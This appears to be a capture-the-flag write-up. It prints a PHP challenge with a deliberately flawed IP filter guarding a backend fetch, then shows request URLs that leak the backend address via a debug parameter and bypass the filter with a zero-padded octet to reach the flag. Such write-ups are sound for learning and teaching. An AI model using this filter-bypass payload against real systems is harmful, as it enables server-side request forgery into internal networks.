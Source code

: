 ```
<?php
        error_reporting(0);
        function fetch_backend($ip) {
            if(is_bad_ip($ip)) {
                return "This IP is not allowed!";
            }
            return file_get_contents("http://". $ip . "/");
        }
        function is_bad_ip($ip) {
            if(!preg_match('/^\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}$/', $ip)) {
                // IP must be in X.Y.Z.Q format
                return true;
            }
            $frontend = gethostbyname(gethostname());
            $backend = gethostbyname("ipfilter_backend");
            $subnet = long2ip(ip2long($frontend) & ip2long("255.255.255.0"));
            $bcast = long2ip(ip2long($frontend) | ~ip2long("255.255.255.0"));

            if(isset($_GET['debug_filter'])) {
                echo "<pre>";
                echo "IP: " . $ip . "<br>";
                echo "Frontend: " . $frontend . "<br>";
                echo "Backend: " . $backend . "<br>";
                echo "Subnet:" . $subnet . "<br>";
                echo "Broadcast:" . $bcast . "<br>";
                echo  "</pre>";
            }

            if(inet_pton($ip) < (int) inet_pton($subnet)) {
                // Do not go below the subnet!
                return true;
            }
            if(! (inet_pton($ip) < inet_pton($bcast))) {
                // Do not go above the subnet!
                return true;
            }
            if($ip == $backend) {
                // Do not allow the backend with our secrets ;-)
                return true;
            }
            return false;
        }
        if(isset($_GET['fetch_backend']) ) {
            echo fetch_backend($_GET['bip']);
        }
        if(isset($_GET['src'])) {
            highlight_file(__FILE__);
        }
        // with <3 from @gehaxelt
    ?>
```
fetch_backend Function: This function takes an IP address as its parameter and attempts to fetch content from that IP address by constructing a URL using file_get_contents(). However, before fetching, it checks if the provided IP is considered "bad" using the is_bad_ip function. If the IP is bad, it returns an error message; otherwise, it fetches and returns the content from the provided IP.

is_bad_ip Function: This function takes an IP address as its parameter and performs several checks to determine if the IP is "bad" and should be disallowed:

The function first checks if the IP is not in the correct format (X.Y.Z.Q format).
It then gets the IP address of the frontend server and the IP address of a server named "ipfilter_backend."
The function calculates the subnet and broadcast addresses based on the frontend server's IP.
If the debug_filter query parameter is set, it displays various IP-related information for debugging purposes.
It checks if the provided IP falls below the subnet or goes above the broadcast address; if so, the IP is considered bad.
It also checks if the provided IP matches the IP of the backend server, and if so, it's considered bad.


+ http://52.59.124.14:10019/?fetch_backend=&debug_filter=&bip=127.0.0.1
![image](https://github.com/Avanthikaanand/My-Writeups/assets/80388135/c983c854-6e3e-4c49-b7a9-2a251a6f5ad6)
Here as we can see in Figure 1, we get the backend IP as 192.168.112.3. However if we directly try this IP in the bip field, the script IP-filtering won’t allow us.
http://52.59.124.14:10019/?fetch_backend=&debug_filter=&bip=192.168.112.003
we get the flag!

